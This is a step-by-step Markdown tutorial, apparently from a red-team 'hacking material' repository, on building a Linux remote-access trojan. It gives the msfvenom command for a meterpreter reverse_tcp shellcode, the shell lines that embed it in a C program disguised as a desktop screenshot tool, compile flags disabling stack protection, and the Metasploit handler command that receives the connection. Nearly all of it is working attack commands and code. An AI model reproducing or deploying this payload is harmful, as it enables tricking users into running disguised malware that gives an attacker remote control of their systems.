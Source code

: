 #### EXERCISE OBJECTIVES
Take control of a linux system remotely ( metasploit - RAT )

<br />

#### STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### SOCIAL ENGINEERING
'Take a desktop screenshot using a C program'.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also contains a system command that takes a screenshot to the desktop of the target PC using<br />
[MITRE ATT&CK T1113 (xwd package)](https://attack.mitre.org/techniques/T1113/) Technic.<br />

<br /><br />

| DEPENDENCIE | FUNCTION | REQUIRED |
|---|---|---|
| Metasploit | Build shellcode ; recive connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### SHELLCODING DESCRIPTION

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

<br /><br /><br />

### STEP-BY-STEP (HOW-TO)

<br />

#### Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

<br /><br />

#### Use Metasploit to Build Shellcode in C Format

```
   ## Build raw shellcode in C
   # WARNING: Replace LHOST value by your local ip address
   # WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
   sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -a x86 --platform linux -f c -o chars.raw

```

<br /><br />

#### See whats written inside chars.raw (optional)

```
   cat chars.raw
```

<br /><br />

#### Parse shellcode data and store it into a local bash variable

```
   pa=$(cat chars.raw | grep -v "=" | tr -d '"; ' | tr -d '\n')
```

<br /><br />

#### Insert the C shellcode created into a C program

```
   echo "#include<stdio.h>" > payload.c
   echo "#include<stdlib.h>" >> payload.c
   echo "#include<string.h>" >> payload.c
   echo "" >> payload.c
   echo "unsigned char buf[] = \"$pa\";" >> payload.c
   echo "" >> payload.c
   echo "int main()" >> payload.c
   echo "{" >> payload.c
   echo "  printf(\"[i] Please Wait, Taking Screenshot ..\");" >> payload.c
   echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  printf(\"[i] Screenshot Stored Under: /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  system(\"sleep 1; xwud /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  void (*ret)() = (void(*)())buf;" >> payload.c
   echo "  ret();" >> payload.c
   echo "}" >> payload.c
```

<br /><br />

#### See whats written inside payload.c (optional)

```
   cat payload.c
```

<br /><br />

#### Use GCC to compile the C program (make it executable)

```
 sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

<br /><br />

#### Start metasploit multi handler

```
   # WARNING: Replace LHOST value by your local ip address
   # WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
   sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

<br /><br />

#### Execute C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


